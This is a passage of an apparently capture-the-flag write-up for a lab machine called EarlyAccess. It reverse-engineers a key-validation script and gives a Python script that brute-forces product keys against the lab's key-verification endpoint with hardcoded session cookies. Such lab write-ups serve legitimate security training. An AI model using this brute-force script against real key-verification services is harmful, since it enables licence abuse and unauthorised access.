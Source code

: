 At the admin panel we can download the [validate.py](validate.py).
Reverse Engineering the python code we can limit our possibilities for a beta key.
The valid- and checksum-functions are telling us that the key has to look something like:
```
KEY12-1K1H1-XP???-GAMD2-????
```
So there are just 3 characters unknown and the checksum has to be calculated for each possibile variant as the `magic_num` is synced with the API and does affect those 3 missing characters.
As we have no access to that API we need to bruteforce the keys through the "Verify a game-key" until we get a valid one. There for we use the verification page of the admin as there is no limit.
We wrote a small script to do that: 
```python
#!/usr/bin/env python3

import requests
import urllib3

urllib3.disable_warnings()

cookies = {'XSRF-TOKEN':'eyJpdiI6Ik1IdlV4T1g1NTRjMWxFNEg2M1NBVnc9PSIsInZhbHVlIjoicTV4RzRSUHVETzllMW8xeGg2RllDWjM0N0tzRlFIbWtsY1RSdGxSYkJSQ3ZMSnhPMkF1dnA0aVpIR3JKTzF4VnYzeEJ0VGkxUEpSMXp5NWdyNWV5YnB1SDNkR1BEQVNHL0RSdkVySnZpTkhiYU9odXpqSFlUMXR6U3Niakp1ZjgiLCJtYWMiOiIxNTE2MDdkMGIwMGQwNjdmMmM1NTdiYmNkMzFkNzhlZDQyMTQyNmRmMjJiNjk0OTY1YmUxZTlmMWUwMjRlOTA3In0%3D','earlyaccess_session':'eyJpdiI6IkdPRklSaXVaeXkya0VqMEdua3NzSHc9PSIsInZhbHVlIjoianliRHplL3pmTTVPSXdNbUU2VzNMYUpxaXV2TFNFSWpOd1RORUFhOVRIbXYrdVB4QSszb2ZUNkVjb2x4TythVU5tZUUwYlExcTNtRGR4L3ZhME5PV09PQVAzRGhVQzByYmtGWFpOZXhwS1dYWDlrTkthMjFKTGN4cGdtSm1ZWUQiLCJtYWMiOiJkYjQ2NDg1M2UzYTUyZjM0YzEyZTVkOTAyN2ZhYmU4OGZlMzAwMWY5ZWY1NTI0MjIwZjJlZTMxMzE0NzI0ODE5In0%3D'}

alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
num = "0123456789"


def calc_cs(input) -> int:
        gs = input.split('-')[:-1]
        return sum([sum(bytearray(g.encode())) for g in gs])


key = ""

def keygen():
    for i in alpha:
        for j in alpha:
            for k in num:
                key = r"KEY12-1K1H1-XP{}{}{}-GAMD2-".format(i,j,k)
                final_key = (key + str(calc_cs(key)))
                r=requests.post('https://earlyaccess.htb/key/verify', data = {'_token':'KRVUPImVkqipKTC3u4cFxkrdklwYxDvfh5fAkNHo', 'key':final_key}, cookies=cookies, verify=False)
                print(final_key + ' ' + str(len(r.text)).replace("13039","invalid"))

keygen()
```
Don't forget to set the cookies and the token. You can get the token from the verifications input form.
After some time you will find a valid key. This key can be used to get access to the game page with an user.
